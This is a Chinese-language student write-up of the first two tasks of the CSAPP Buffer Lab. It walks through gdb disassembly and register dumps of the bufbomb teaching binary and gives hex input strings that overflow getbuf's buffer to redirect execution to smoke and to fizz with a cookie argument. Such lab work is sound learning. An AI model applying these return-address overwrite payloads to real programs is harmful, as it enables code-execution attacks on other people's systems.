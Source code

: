 1. task1

解决思路和attack lab类似，不同的是IA-32下寄存器只有32位。

首先来看getbuf的汇编形式：

```
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x080491f4 <+0>:		push   %ebp
   0x080491f5 <+1>:		mov    %esp,%ebp
   0x080491f7 <+3>:		sub    $0x38,%esp
   0x080491fa <+6>:		lea    -0x28(%ebp),%eax
   0x080491fd <+9>:		mov    %eax,(%esp)
   0x08049200 <+12>:	call   0x8048cfa <Gets>
   0x08049205 <+17>:	mov    $0x1,%eax
   0x0804920a <+22>:	leave  
   0x0804920b <+23>:	ret    
End of assembler dump.
```

注意这里一个特殊的地方就是这个leave指令，百度查它的语义：

```
leave ret指令详解
leave指令可以使栈做好返回的准备，它等价于mov %ebp,%esp，pop %ebp。首先是mov %ebp,%esp，当前保存的ebp的值使栈帧的栈底地址，所以这一句话的作用就是把esp给放回到调用者栈帧的栈顶，联系到进入函数时的语句mov %esp,%ebp，其实就是这个的逆过程，旨在恢复原来栈顶的状态。然后是pop %ebp，pop是对栈顶元素出栈，而现在的栈顶（也是栈底）存储的是调用者栈帧的栈底地址，这条指令就是把这一地址赋值给ebp（把被保存的ebp的值赋给寄存器ebp）。所以这句话就是恢复调用者栈帧的栈底，这样一来的话调用者栈帧旧基本上恢复到原来的状态了。
leave只是做好了返回的准备，我们调用完函数之后，调用者还需要接着向下执行指令，那么调用完函数以后就应该跳转到该函数的下一条指令的地址，我们的CALL指令就是先将下一条指令的地址入栈，然后跳转，这里ret的作用就是把那一个地址给弹出栈，并且跳转到地址对应的语句，再接着执行，这样一来一个函数就完整的执行了。
————————————————
版权声明：本文为CSDN博主「狍狍子」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/sakuraqwqqqqq/article/details/111879855
```

在来看具体行为：

分别在0x080491f7、0x0804920a、0x0804920b三处打上断点：

```
(gdb) b *0x080491f7
Breakpoint 1 at 0x80491f7
(gdb) b *0x0804920a
Breakpoint 2 at 0x804920a
(gdb) b *0x0804920b
Breakpoint 3 at 0x804920b
```

跑一下试试,, 顺便在第一个断点处看寄存器信息，为了清除起见，只保留了esp、ebp、eip三个寄存器的信息：

```
(gdb) run -u bovik
Starting program: /mnt/projects/CSAPP-Assignments/my-solution/4-Buffer-Lab-IA32/buflab32-handout/buflab-handout/bufbomb -u bovik
Userid: bovik
Cookie: 0x1005b2b7

Breakpoint 1, 0x080491f7 in getbuf ()
(gdb) info r
...
esp            0x556835b0          0x556835b0 <_reserved+1037744>
ebp            0x556835b0          0x556835b0 <_reserved+1037744>
...                 
eip            0x80491f7           0x80491f7 <getbuf+3>
...
```

然后接着跑随便输入一个字符串：

```
(gdb) c
Continuing.
Type string:testString

Breakpoint 2, 0x0804920a in getbuf ()
(gdb) info r
...
esp            0x55683578          0x55683578 <_reserved+1037688>
ebp            0x556835b0          0x556835b0 <_reserved+1037744>
...
eip            0x804920a           0x804920a <getbuf+22>
...

(gdb) c
Continuing.

Breakpoint 3, 0x0804920b in getbuf ()
(gdb) info r
...
esp            0x556835b4          0x556835b4 <_reserved+1037748>
ebp            0x556835e0          0x556835e0 <_reserved+1037792>
...
eip            0x804920b           0x804920b <getbuf+23>
...
```

观察断点2的寄存器信息和断点3的寄存器信息，可以看到 leave函数就是将ebp的值——0x556835b0赋值给esp，此时esp=0x556835b0，然后栈顶再pop一下，此时esp=0x556835b4，然后执行ret。

那么我们只需要使得0x556835b4这个位置上是smoke函数的地址即可。

在第一个断点处，esp=0x556835b0，然后执行了：

```
0x080491f7 <+3>:		sub    $0x38,%esp
```

也就是说，字符串是从 0x556835b0 - 32 处开始输入的，而smoke函数的地址为0x08048c18，只需要使得输入字符串的栈结构如下即可：

![stack-task-1](/mnt/projects/CSAPP-Assignments/my-solution/4-Buffer-Lab-IA32/buflab32-handout/buflab-handout/stack-task-1.png)

那么输入字符串就是：

```
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
18 8c 04 08
```

试验：

```
cat task1.txt | ./hex2raw | ./bufbomb -u bovik
```

结果：

![res-task1](/mnt/projects/CSAPP-Assignments/my-solution/4-Buffer-Lab-IA32/buflab32-handout/buflab-handout/res-task1.png)



2. task2

和task1非常接近，只需要考虑把参数放在栈的哪个位置，首先来看fizz函数的代码：

```c
void fizz(int val)
{
	if (val == cookie) {
		printf("Fizz!: You called fizz(0x%x)\n", val);
		validate(1);
	} else
		printf("Misfire: You called fizz(0x%x)\n", val);
	exit(0);
}
```

看其汇编版本：

```
(gdb) disas fizz
Dump of assembler code for function fizz:
   0x08048c42 <+0>:		push   %ebp
   0x08048c43 <+1>:		mov    %esp,%ebp
   0x08048c45 <+3>:		sub    $0x18,%esp
   0x08048c48 <+6>:		mov    0x8(%ebp),%eax
   0x08048c4b <+9>:		cmp    0x804d108,%eax
   0x08048c51 <+15>:	jne    0x8048c79 <fizz+55>
   0x08048c53 <+17>:	mov    %eax,0x8(%esp)
   0x08048c57 <+21>:	movl   $0x804a4ee,0x4(%esp)
   0x08048c5f <+29>:	movl   $0x1,(%esp)
   0x08048c66 <+36>:	call   0x80489c0 <__printf_chk@plt>
   0x08048c6b <+41>:	movl   $0x1,(%esp)
   0x08048c72 <+48>:	call   0x804937b <validate>
   0x08048c77 <+53>:	jmp    0x8048c91 <fizz+79>
   0x08048c79 <+55>:	mov    %eax,0x8(%esp)
   0x08048c7d <+59>:	movl   $0x804a340,0x4(%esp)
   0x08048c85 <+67>:	movl   $0x1,(%esp)
   0x08048c8c <+74>:	call   0x80489c0 <__printf_chk@plt>
   0x08048c91 <+79>:	movl   $0x0,(%esp)
   0x08048c98 <+86>:	call   0x8048900 <exit@plt>
End of assembler dump.
```

在<+9>处执行的就是if (val == cookie)这个比较逻辑，也就是说让%eax中存着cookie就行，然后%eax中的值就是：

```
mov    0x8(%ebp),%eax
```

而ebp的值：

```
mov    %esp,%ebp
```

也就是说在ret时栈顶的位置+8

所以输入字符串的栈结构应为：

![stack-task-2](/mnt/projects/CSAPP-Assignments/my-solution/4-Buffer-Lab-IA32/buflab32-handout/buflab-handout/stack-task-2.png)

那么输入字符串就是：

```
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
42 8c 04 08
00 00 00 00
b7 b2 05 10
```

测试结果：

![res-task2](/mnt/projects/CSAPP-Assignments/my-solution/4-Buffer-Lab-IA32/buflab32-handout/buflab-handout/res-task2.png)


